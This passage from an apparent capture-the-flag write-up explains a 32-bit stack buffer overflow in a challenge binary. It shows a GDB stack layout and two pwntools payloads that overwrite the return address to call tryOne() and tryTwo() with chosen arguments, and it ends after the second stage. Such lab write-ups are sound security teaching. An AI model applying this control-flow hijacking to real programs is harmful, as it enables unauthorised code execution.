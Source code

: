 # 3. Exploit

### Stage 1: Execute tryOne()

As we know that the program first push argument on stack, then **call** function tryOne() (`call` will place the return address on stack already). The stack will look like this when it jump to the begining of tryOne():

```
0xffe46100│+0x0000: 0x0804929c    <-- Return address
0xffe46104│+0x0004: 0x00000004    <-- Argument 1
0xffe46108│+0x0008: 0x00000005    <-- Argument 2
0xffe4610c│+0x000c: 0x00000006    <-- Argument 3
```

so our first payload will look like this:

```
payload = cyclic(52)
payload += flat(exe.sym['tryOne'])
payload += flat(exe.sym['main'])     # Return address
payload += p32(0xdeadbeef)           # Argument 1
payload += p32(0xf00dcafe)           # Argument 2
payload += p32(0xd00dface)           # Argument 3
p.sendafter(b'All the Best :)', payload)
```

We will want it return to main so that we can input again to execute tryTwo(). And because the var `set` is global so if we finished the function tryOne(), it still remains the same.

And after it execute successfully, we can see that it print out the string `Nice Try` and wait for out input:

![nice_try.png](images/nice_try.png)

So let's move on stage 2: Execute tryTwo()

### Stage 2: Execute tryTwo()

We still debug with GDB to check which string will be check first and we have this payload (just stop at strcmp() and you will get that):

```
payload = cyclic(52)
payload += flat(exe.sym['tryTwo'])
payload += flat(exe.sym['main'])
payload += p32(0xf00dcafe)
payload += p32(0xd00dface)
payload += p32(0xdeadbeef)
p.sendafter(b'All the Best :)', payload)
```
